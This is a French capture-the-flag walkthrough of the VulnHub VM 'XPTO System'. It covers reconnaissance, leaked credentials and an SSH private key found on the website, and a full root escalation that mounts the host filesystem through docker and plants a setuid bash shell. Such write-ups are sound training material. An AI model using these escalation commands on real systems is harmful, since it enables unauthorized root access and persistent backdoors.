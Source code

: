 ```yaml
---
title: "Solution du CTF XPTO System de VulnHub"
tags: [CTF,VulnHub]
---
```


Voici [XPTO System](https://vulnhub.com/entry/xpto-system-1,635/), un petit CTF disponible sur VulnHub. L'objectif est de devenir root et de retrouver un document PDF sur le sysème. Le fichier n'a plus son extension PDF.

Ce CTF est plutôt simple mais contient quelques informations superflues qui peuvent faire perdre du temps au joueur qui penserait quelles ont une quelconque importance.

```
Nmap scan report for 192.168.56.53
Host is up (0.00034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: XPTO System
| http-git: 
|   192.168.56.53:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: Apache/2.4.38 (Debian)
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a1c75d66713eed5f4bb107f3be0f086f (RSA)
```

Comme un dossier .git est à la racine du site j'ai directement appelé un [git-dumper: A tool to dump a git repository from a website](https://github.com/arthaud/git-dumper) dessus mais me répo est vide.

Dans la page HTML du site on trouve un commentaire avec un possible nom d'utilisateur :

```html
<!-- Peter, you need to improve this here, it's very simple-->
```

Comme il n'y a aucun lien dans la page je lance `feroxbuster` qui me trouve quelques resources :

```
403 http://192.168.56.53/etc/
403 http://192.168.56.53/src/
200 http://192.168.56.53/logout.php
200 http://192.168.56.53/login.php
```

La page `login.php` contient un commentaire à propos d'un fichier ainsi qu'un autre nom :

```html
<!--Robert, this here should be corrected, check the README -->			
Click here to clean <a href = "logout.php" tite = "Logout">Session.
```

La page de logout retourne une erreur PHP causée vraisemblablement plus par une mauvaise pratique que par une quelconque vulnérabilité :

```html
You have cleaned session<br />
<b>Warning</b>:  Cannot modify header information - headers already sent by (output started at /var/www/html/logout.php:6) in <b>/var/www/html/logout.php</b> on line <b>7</b><br />
```

Pour un fichier readme on peut s'attendre à différentes extensiosn possibles : txt, md, rst, htm, html. J'ai fouillé dans les deux dossiers préalablement découverts mais en fait le fichier `README.md` était situé à la racine :

> # TODO
> 
> - Consertar a pagina de logout
> - Criar a pagina de dashboard pos login
>   
>   # Comandos uteis
>   
>   ## Start container
>   
>   $ docker run --name webserver -d -p 80:80 -v ~/http:/var/www/html php:apache
>   
>   ## Stop container
>   
>   $ docker stop webserver
>   
>   ## Start container
>   
>   $ docker start webserver
>   
>   ## Image list
>   
>   $ docker images
>   
>   ## Credential
>   
>   web:pipocadoce
>   
>   ### View Access
>   
>   /delete-me

## Passe-Partout

La page `/delete-me` contient un bloc de données base64. Quand on le décode on obtient un entête `openssh-key-v1` suivi de données brutes.

Il s'agit donc d'une clé privée SSH, il suffit de reprendre le base64 et de l'entourer par ceux deux lignes :

```
-----BEGIN OPENSSH PRIVATE KEY-----
-----END OPENSSH PRIVATE KEY-----
```

Quand on tente d'utiliser la clé, une passphrase est demandée. Le mot de passe `pipocadoce` (trouvé dans la page web) est accepté et on peut se connecter en SSH avec l'utilisateur `web`.

```bash
$ ssh -p 1337 -i data.txt web@192.168.56.53
Enter passphrase for key 'data.txt': 
web@xptosystem:~$ id
uid=1001(web) gid=1001(web) grupos=1001(web),112(docker)
web@xptosystem:~$ docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                NAMES
e2d500c879b0        php:apache          "docker-php-entrypoi…"   2 years ago         Up 21 minutes       0.0.0.0:80->80/tcp   webserver
web@xptosystem:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
php                 apache              811269837652        2 years ago         414MB
web@xptosystem:~$ ls
http  remember.txt
web@xptosystem:~$ cat remember.txt 
Task List:
- Request xptosys software test
- Schedule a meeting with the devsecops teams
- Change sysdev password: PassSecret#789%
- Request sysdev permissions release
- Schedule Status Report Meeting
```

Le mot de passe permet de passer `sysdev` via su. L'utilisateur ne semble pas avoir de droits particuliers :

`uid=1000(sysdev) gid=1000(sysdev) grupos=1000(sysdev)`

De plus on a les droits `docker` via `web` du coup pourquoi ne pas directement passer root ? On va lancer un container en réutilisant l'image présente sur le système et en montant la partition racine dans le dossier `/mnt` du docker :

```bash
web@xptosystem:~$ docker run -it -v /:/mnt 811269837652 bash
root@b47092337db7:/var/www/html# cd /mnt
root@b47092337db7:/mnt# cp bin/bash bin/gotroot
root@b47092337db7:/mnt# chmod 4755 bin/gotroot
root@b47092337db7:/mnt# exit
web@xptosystem:~$ gotroot -p
gotroot-5.0# id
uid=1001(web) gid=1001(web) euid=0(root) grupos=1001(web),112(docker)
gotroot-5.0# find /usr/ -type f -exec file {} \; | grep -i pdf
/usr/share/doc/debian/FAQ/debian-faq.en.pdf.gz: gzip compressed data, was "debian-faq.en.pdf", last modified: Sat Nov 17 22:45:23 2018, max compression, from Unix, original size 314116
/usr/share/doc/file/yetcfm@357/d4t4_exf1lter: PDF document, version 1.7
/usr/share/groff/1.22.4/tmac/pdfpic.tmac: troff or preprocessor input, ASCII text
/usr/share/bash-completion/completions/pdftotext: ASCII text
gotroot-5.0# ls -lh /usr/share/doc/file/yetcfm@357/d4t4_exf1lter
-r-------- 1 sys sys 299K jun  7  2015 /usr/share/doc/file/yetcfm@357/d4t4_exf1lter
```

Une fois dans le docker j'ai créé un shell setuid root sur le système que j'ai exécuté une fois sorti. De là je fouille à la recherche de fichiers PDFs en regardant le type mime de chacun. J'ai trouvé une correspondance sous `/usr/share/`.

Le flag était le suivant : `flag{C4r3_with_p3rm155ions}`

Au final un peu trop de fausses pistes pour un aussi petit CTF.



